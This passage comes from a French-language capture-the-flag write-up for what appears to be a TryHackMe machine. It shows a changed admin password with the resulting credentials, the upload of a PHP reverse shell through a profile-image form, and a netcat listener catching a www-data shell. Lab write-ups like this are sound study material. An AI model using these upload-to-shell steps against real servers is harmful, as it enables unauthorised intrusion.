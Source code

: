 On envoi la requête et c'est parfait, le serveur est OK.
```
HTTP/1.1 200 OK
Date: Thu, 16 Nov 2023 11:07:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
refresh: 3;url=ResetUser.php
Content-Length: 37
Connection: close
Content-Type: text/html; charset=UTF-8

Password changed. 
Taking you back...
```

Nous avons désormais l'accès au panel admin du site.
```
admin@sky.thm
test1
```
# Le shell ou pas ?!?
Sur le site, on peu importer un fichier, on va tenter de upload un shell.

Le shell **php-revshell.php** s'upload bien, on a un retour positif du serveur qui indique 
```
HTTP/1.1 200 OK
Date: Thu, 16 Nov 2023 19:54:22 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 26802
Connection: close
Content-Type: text/html; charset=UTF-8

Image saved.<!DOCTYPE html>
```
Quand j'upload le shell, il n'apparait pas dans http://10.10.157.67/assets/img/php-revshell.php
Peut etre qu'un script tourne derrière pour supprimer le fichier qui ne va pas....

En regardant d'un peu plus pret le retour du serveur après l'upload du shell, on trouve un commentaire utile : 
```
<!-- /v2/profileimages/ -->
```
J'upload donc un shell et vais sur la page http://10.10.111.112/v2/profileimages/php-revshell.php
et bingo !
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.111.112] 51758
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:47:29 up 48 min,  0 users,  load average: 0.02, 0.08, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
